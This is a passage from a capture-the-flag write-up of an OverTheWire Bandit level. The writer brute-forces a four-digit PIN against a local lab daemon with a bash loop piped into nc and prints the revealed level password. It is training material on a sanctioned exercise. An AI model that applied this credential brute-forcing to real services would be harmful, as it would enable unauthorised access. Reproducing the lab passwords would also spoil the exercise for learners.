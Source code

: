 ```shell
bandit24@bandit:~$ mkdir /tmp/brute
bandit24@bandit:~$ cd /tmp/brute
bandit24@bandit:/tmp/brute$ vim script.sh
#!/bin/bash

for i in {1..10000};
  do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002;

done
bandit24@bandit:/tmp/brute$ chmod +x script.sh
```

And that should do the trick, this will make a lot of junk output so I'm going to redirect it to a file for easier reading once the script is finished executing.

```shell
bandit24@bandit:/tmp/brute$ ./script.sh > junk.txt
```

And this will take a while...

This really did take a while, after around 30 minutes, the server deleted my /tmp directory and all the work I did in it, so I'm gonna have to do it in a different way.

```shell
bandit24@bandit:/tmp/brute$ vim script.sh
#!/bin/bash

for i in {1..10000};
  do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> combinations.txt;

done
bandit24@bandit:/tmp/brute$ chmod +x script.sh
bandit24@bandit:/tmp/brute$ ./script.sh
```

This will generate all possible combinations and put them in the text file. And then I plan to just pipe the file into the daemon that is listening.

```shell
bandit24@bandit:/tmp/brute$ cat combinations.txt | nc localhost 30002
...
Correct!
The password of user bandit25 is 
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

That was much much faster because I didn't have to connect to daemon for every combination. Another way I could've done this is by using sockets in python, but this was much faster to do.

```shell
bandit24@bandit:/tmp/brute$ exit
ssh bandit25@bandit.labs.overthewire.org -p 2220
```
